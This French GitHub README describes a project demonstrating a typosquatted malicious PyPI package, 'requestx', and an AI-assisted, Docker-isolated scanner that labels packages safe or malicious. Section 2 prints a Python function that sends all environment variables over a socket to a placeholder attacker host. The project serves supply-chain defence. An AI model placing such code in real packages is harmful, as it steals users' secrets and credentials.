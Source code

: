# Projet RequestX : Détection d’un Paquet Python Malveillant

## 1. Introduction

Les dépôts publics comme **PyPI** constituent une cible privilégiée pour les attaques de la chaîne d’approvisionnement logicielle (*supply-chain attacks*).  
Un attaquant peut en effet publier un paquet qui paraît légitime mais contient du code malveillant.  
Une fois installé, ce paquet peut compromettre la machine de la victime en exfiltrant des données sensibles.  

L’objectif de ce projet est de :

1. Illustrer la création et la publication d’un paquet Python **compromis**.
2. Montrer comment un outil d’analyse peut détecter les comportements malveillants.
3. Démontrer que l’analyse est fiable en testant également un paquet **inoffensif**.

---

## 2. Paquet compromis : `requestx`

Le paquet **`requestx`** a été conçu pour imiter une librairie Python utile.  
Derrière cette façade légitime, son fichier principal contient du code malveillant qui exfiltre les variables d’environnement vers un serveur externe.

- **Code malveillant :**

```python
# Exfiltration de toutes les variables d'environnement
def _exfiltrate_env():
    try:
        env_vars = json.dumps(dict(os.environ))
        s = socket.socket()
        s.connect(("ip.hacker", port.hacker))  # Connexion au serveur de l’attaquant
        s.send(env_vars.encode())
        s.close()
    except Exception:
        pass


Ainsi, un utilisateur qui installe et utilise ce paquet croit bénéficier d’une librairie pratique, mais son système est immédiatement compromis.

---

## 3. Paquet témoin : `requestx_safe`

Afin de valider l’efficacité de l’outil d’analyse, un second paquet a été créé : **`requestx_safe`**.
Celui-ci ne contient **aucune fonctionnalité malveillante**.
Son rôle est uniquement de démontrer que l’analyse fait correctement la distinction entre un paquet compromis et un paquet sain.

---

## 4. Analyse des paquets

L’analyse des paquets Python doit se faire dans un environnement **sécurisé et isolé** afin d’éviter toute exécution dangereuse de code malveillant.
Pour cela, le processus complet est exécuté **dans un conteneur Docker dédié**, qui assure un confinement strict.

De plus, l’étape d’interprétation du code est confiée à une **IA spécialisée** : celle-ci examine les fichiers Python, détecte des motifs suspects et rend un verdict accompagné de détails.
L’approche combine donc **isolation technique** (Docker) et **intelligence artificielle** (analyse de code).

---

### Étapes de l’analyse :

1. **Soumission du paquet** : un package Python est téléchargé dans le conteneur Docker.
2. **Extraction du contenu** : le paquet est décompressé (fichiers `.py`, `pyproject.toml`, etc.).
3. **Scan statique** : chaque fichier Python est lu, sans exécution, afin d’éviter les risques.
4. **Analyse par IA** : le contenu de chaque fichier est envoyé à un modèle d’IA, qui :

   * identifie des comportements dangereux (exfiltration, accès aux secrets, etc.),
   * distingue les fonctions légitimes des actions suspectes,
   * fournit un verdict explicite (`safe` / `malicious`).
5. **Rapport JSON** : les résultats sont restitués de manière structurée pour chaque fichier Python trouvé.

---

### Schéma ASCII du processus d’analyse

```ascii
[ Paquet Python ] --> [ Docker isolé ] --> [ Extraction contenu ] --> [ Scan statique ] --> [ Analyse IA ] --> [ Rapport JSON ]
```

---

### Exemples de résultats

**Pour le paquet compromis `requestx` :**

<img width="1116" height="578" alt="image" src="https://github.com/user-attachments/assets/bb13b828-b71e-466b-ad85-c875d15c11dc" />

**Pour le paquet témoin `requestx_safe` :**

<img width="1125" height="903" alt="image" src="https://github.com/user-attachments/assets/8946fcbd-ad13-4c3e-aa57-1101df03033d" />

---

### Interprétation

* Dans le cas de **`requestx`**, l’IA détecte que le fichier accède aux variables d’environnement et les envoie vers un serveur externe → verdict **malicious**.
* Dans le cas de **`requestx_safe`**, le code se limite à une fonction légitime et ne contient aucun comportement dangereux → verdict **safe**.

Ces résultats démontrent la capacité du système à **détecter un code malveillant même dans un package qui semble légitime**, tout en reconnaissant correctement les paquets sûrs.

---

## 5. Discussion : Supply-Chain Attacks et Typosquatting

Ce projet illustre un scénario réaliste de **supply-chain attack** où un paquet Python publié sur un dépôt officiel peut contenir du code malveillant.
Un utilisateur non vigilant qui installe ce paquet compromet immédiatement son environnement.

En complément, un autre risque fréquent est le **typosquatting** : un attaquant publie un paquet avec un nom très proche d’un paquet populaire (`requestx` au lieu de `requests`) pour piéger les utilisateurs.

---

## 6. Conclusion

Ce projet met en évidence la facilité avec laquelle un paquet Python peut être compromis, et l’importance d’outils d’analyse automatisés et isolés pour renforcer la sécurité de la chaîne d’approvisionnement logicielle.

```

